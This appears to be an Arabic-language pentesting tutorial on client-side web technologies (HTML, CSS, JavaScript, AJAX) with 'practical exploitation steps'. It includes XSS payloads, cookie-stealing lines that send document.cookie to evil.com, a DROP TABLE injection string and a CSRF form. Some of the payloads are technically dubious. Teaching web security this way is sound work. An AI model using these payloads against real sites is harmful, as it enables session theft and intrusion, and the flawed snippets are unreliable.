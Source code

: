 تمام، هنشرح **مكونات تطبيقات الويب: تقنيات جانب العميل (Client-Side Technologies - HTML, CSS, JavaScript, AJAX)** بنفس الطريقة السابقة: شرح مفصل وعملي مع أكواد وأوامر، مع تركيز على اختبار الاختراق (Pentesting)، وبعد كل جزء هخلّص بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال.

---

### **1. شرح تقنيات جانب العميل بالتفصيل:**

#### **أ. المفهوم الأساسي (What Are Client-Side Technologies):**
- تقنيات جانب العميل هي اللي بتشتغل في المتصفح بتاعك (الـ Client)، مش على السيرفر. بتتحكم في اللي بتشوفه وتتفاعل معاه:
  - **HTML:** الهيكل (زي العنوان والفقرات).
  - **CSS:** الشكل (الألوان والتنسيق).
  - **JavaScript:** التفاعل (الأكشن لما تضغط زرار).
  - **AJAX:** بيجيب بيانات من السيرفر بدون تحديث الصفحة.
- الكود بيتروح من السيرفر للمتصفح، وبعد كده المتصفح هو اللي بينفذه.

- **مثال عملي:**
  - صفحة بسيطة:
    ```
    <html>
    <head><style>body {color: blue;}</style></head>
    <body><h1>Hello</h1><script>alert('Hi');</script></body>
    </html>
    ```

- **جانب عملي للبينتست:**
  - شوف الكود:
    - كليك يمين > "View Page Source" (HTML/CSS/JS).
  - جرب تتفاعل:
    - افتح Console في المتصفح (F12) وجرب `document.cookie` (تشوف الكوكيز).

- **خلاصة بالعامية:**
  - "التقنيات دي زي اللي بتشوفها قدامك في الموقع، HTML هو العضم، CSS هو اللحم، وJavaScript هو الروح، لو لعبت فيهم هتعمل عمايل."

---

#### **ب. التقنيات ودورها (Technologies & Roles):**

1. **HTML (HyperText Markup Language):**
   - بيحدد هيكل الصفحة (عناوين، أزرار، حقول إدخال).
   - مثال:
     ```
     <form action="/login" method="POST">
       <input name="username">
       <input name="password" type="password">
       <button>Login</button>
     </form>
     ```

2. **CSS (Cascading Style Sheets):**
   - بيظبط الشكل (ألوان، خطوط، تنسيق).
   - مثال:
     ```
     <style>
       button {background-color: green; padding: 10px;}
     </style>
     ```

3. **JavaScript (JS):**
   - بيضيف التفاعل (زي فتح نافذة أو إرسال طلب).
   - مثال:
     ```
     <script>
       document.querySelector('button').onclick = () => alert('Clicked!');
     </script>
     ```

4. **AJAX (Asynchronous JavaScript and XML):**
   - بيجيب بيانات من السيرفر بدون تحديث.
   - مثال:
     ```
     <script>
       fetch('/api/data')
         .then(response => response.json())
         .then(data => console.log(data));
     </script>
     ```

- **جانب عملي للبينتست:**
  - HTML: جرب حقن: `<input value="<script>alert(1)</script>">` (XSS).
  - CSS: نادرًا في ثغرات، لكن ممكن تستخدمها لتخبية هجمات.
  - JS: افتح Console وجرب: `document.location='http://evil.com?cookie='+document.cookie` (سرقة كوكيز).
  - AJAX: اعترض الطلب بـ Burp Suite وحقن `');alert(1);//` (XSS).

- **خلاصة بالعامية:**
  - "HTML بيبني البيت، CSS بيدهنه، JS بيخليه يتحرك، وAJAX بيجيبلك الأكل من المطبخ من غير ما تقوم، لو كسرتهم هتتحكم في كل حاجة."

---

#### **ج. كيف تشتغل مع بعض (How They Work Together):**
- HTML بيبني الهيكل، CSS بيجمّله، JS بيديله حياة، وAJAX بيربطه بالسيرفر.
- مثال كامل:
  ```
  <html>
  <head>
    <style>.result {color: red;}</style>
  </head>
  <body>
    <input id="search" placeholder="Search">
    <button onclick="search()">Go</button>
    <div class="result" id="result"></div>
    <script>
      function search() {
        let query = document.getElementById('search').value;
        fetch('/api/search?q=' + query)
          .then(res => res.text())
          .then(data => document.getElementById('result').innerHTML = data);
      }
    </script>
  </body>
  </html>
  ```

- **جانب عملي للبينتست:**
  - HTML: جرب `<img src=x onerror=alert(1)>` في حقل البحث (XSS).
  - JS: عدل الكود في Console: `search = () => alert(document.cookie)` (تسريب).
  - AJAX: أضف `');DROP TABLE users;//` في `query` (SQLi لو السيرفر ضعيف).

- **خلاصة بالعامية:**
  - "التلاتة دول زي فرقة موسيقى، لو عزفوا غلط أو حد لعب في الآلات، هتسمع صوت يوديك في داهية."

---

#### **د. الثغرات المرتبطة (Vulnerabilities):**
- **XSS (Cross-Site Scripting):** لو HTML/JS بيسمح بحقن كود.
- **DOM-Based XSS:** لو JS بيستخدم بيانات غير نظيفة (مثل `innerHTML`).
- **CSRF:** لو AJAX بيبعت طلبات بدون حماية.
- **Sensitive Data Exposure:** لو JS بيكشف كوكيز أو بيانات.

- **مثال عملي:**
  - XSS: `<script>fetch('http://evil.com?data='+document.cookie)</script>`.
  - DOM XSS: `document.write(location.hash)` مع `#<img src=x onerror=alert(1)>`.

- **جانب عملي للبينتست:**
  - XSS: جرب في أي إدخال: `<script>alert(1)</script>` أو `<img src=x onerror=alert(1)>`.
  - DOM XSS: غيّر URL: `http://example.com/#<script>alert(1)</script>`.
  - AJAX: اعترض بـ Burp وأضف `');alert(1);//` (XSS أو SQLi).
  - كوكيز: `curl http://example.com | grep cookie` (شوف لو بتظهر في JS).

- **خلاصة بالعامية:**
  - "التقنيات دي لو مش محمية هتبقى زي البيت بدون قفل، أي حد يحط حاجة فيها أو يسرق منها، العب صح وهتكسب."

---

### **خطوات عملية للاستغلال (Pentesting):**
1. **اكتشف الكود:**
   - افتح "View Source" أو `curl http://example.com` (شوف HTML/CSS/JS).
   - ابحث عن JS خارجي: `curl http://example.com/script.js`.

2. **اختبر HTML:**
   - حقن XSS: `<script>alert(document.cookie)</script>` في أي حقل.
   - جرب أخطاء: `<input value=">alert(1)">`.

3. **هاجم JavaScript:**
   - Console: `document.location='http://evil.com?data='+document.cookie`.
   - ابحث عن `eval()` أو `innerHTML` وحقن كود.

4. **استغل AJAX:**
   - اعترض بـ Burp وحقن: `');alert(1);//`.
   - جرب CSRF: `<form action="http://example.com/api" method="POST" onload="submit()">`.

5. **تحلل الثغرات:**
   - XSS: استخدم `xsser` أو يدويًا بـ `<img src=x onerror=alert(1)>`.
   - DOM XSS: `http://example.com/#<script>fetch('evil.com')</script>`.

---

### **خلاصة نهائية بالعامية:**
- "تقنيات الـ Client زي الواجهة بتاعتك، لو عرفت تلعب في HTML وCSS وJS وAJAX، هتخلّي المتصفح يعمل اللي إنت عايزه، بس خلّيك دماغ عشان متتلبسش!"